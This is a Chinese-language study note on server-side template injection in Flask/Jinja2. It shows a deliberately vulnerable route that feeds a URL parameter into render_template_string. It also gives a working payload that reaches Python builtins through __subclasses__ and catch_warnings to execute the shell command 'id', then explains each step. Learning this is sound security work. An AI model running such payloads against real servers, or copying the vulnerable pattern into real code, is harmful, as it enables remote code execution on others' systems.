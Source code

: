 # 环境搭建
- Windows 10
- python3
- flask
- jinja2

# 测试代码
```
from flask import Flask, render_template, render_template_string

app = Flask(__name__)  
 
@app.route("/user/<name>")
def user(name):
    template = '''
    <h3>%s</h3>
    '''%(name)
    return render_template_string(template)

if __name__ == "__main__":  
    app.run() 

```
就是把url user后面的name输出出来
> 注意这里面如果使用render_template带入html模板的话就不会产生这个问题，将html模板通过`{%% extends "layout.html" %%}`引入到python中也会出现这个问题

# 常见payload解析
常见的payload的思路都常常是利用python内置的变量属性等出发·通过调用一些隐藏的属性（方法）从而实现代码输入

```
# 命令执行
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='catch_warnings' %}
		{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
	{% endif %}
{% endfor %}
```
- 当输入这段payload的时候，这段标签会被当做模板中的标签来解析
- 首先这个使用了一个循环和if的jinja2的结构找到了一个内置的类catch_warnings，
- 然后通过一个特殊的属性`__globals__`找到了当前函数所在命名空间下的所有变量
`__globals__` *这个属性是python所有函数都包含的一个属性，调用这个属性会返回所在模块命名空间里面的所有变量*
- 然后利用每个python都会加载builtins这个模块而这个模块中有eval、exec、open等函数，然后就构成了代码注入

# 相关文档
- 掘金[Flask jinja2模板注入思路总结](https://juejin.im/entry/5a91040ef265da4e9268410ehttps://juejin.im/entry/5a91040ef265da4e9268410e)
- Freebuf[探索Flask/Jinja2中的服务端模版注入](https://www.freebuf.com/articles/web/98619.html)
- csdn[](https://blog.csdn.net/nameix/article/details/54341949)

